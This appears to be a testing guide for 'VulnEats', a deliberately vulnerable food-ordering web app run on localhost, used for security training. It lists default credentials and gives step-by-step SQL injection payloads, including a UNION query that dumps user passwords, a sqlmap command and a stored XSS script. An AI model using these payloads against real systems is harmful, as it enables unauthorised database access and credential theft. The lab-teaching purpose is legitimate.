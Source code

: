 # VulnEats Security Testing Guide

This guide provides step-by-step instructions for testing the deliberate vulnerabilities in the VulnEats application.

## 🎯 Testing Environment Setup

### Prerequisites
- VulnEats application running on `http://localhost:5000`
- Web browser with developer tools
- Burp Suite (optional but recommended)
- OWASP ZAP (optional)

### Default Credentials
- **Admin**: `admin` / `admin123`
- **Restaurant Owner**: `restaurant1` / `password123`
- **Customer**: `customer1` / `password123`

## 🗂 Vulnerability Testing Guide

### 1. SQL Injection (Search Functionality)

**Location**: Search box on homepage or search results page
**Vulnerability**: Direct SQL query concatenation

#### Test Steps:
1. Go to the homepage
2. In the search box, enter: `pizza' OR '1'='1`
3. Click search
4. **Expected Result**: All menu items should be returned instead of just pizza items

#### Additional SQL Injection Tests:
```sql
' UNION SELECT 1,2,3,4,5 --
' UNION SELECT username,password,email,role,created_at FROM users --
' OR 1=1 --
' OR '1'='1' --
```

#### Tools to Use:
- **sqlmap**: `sqlmap -u "http://localhost:5000/search?q=test" --dbs`
- **Burp Suite**: Intercept and modify search requests

### 2. Stored XSS (Cross-Site Scripting)

**Location**: Special instructions field when adding items to cart
**Vulnerability**: User input stored and displayed without sanitization

#### Test Steps:
1. Login as a customer
2. Go to any restaurant menu
3. Add an item to cart
4. In the "Special Instructions" field, enter:
   ```html
   <script>alert('XSS')</script>
   ```
5. Add to cart and view cart
6. **Expected Result**: JavaScript alert should execute
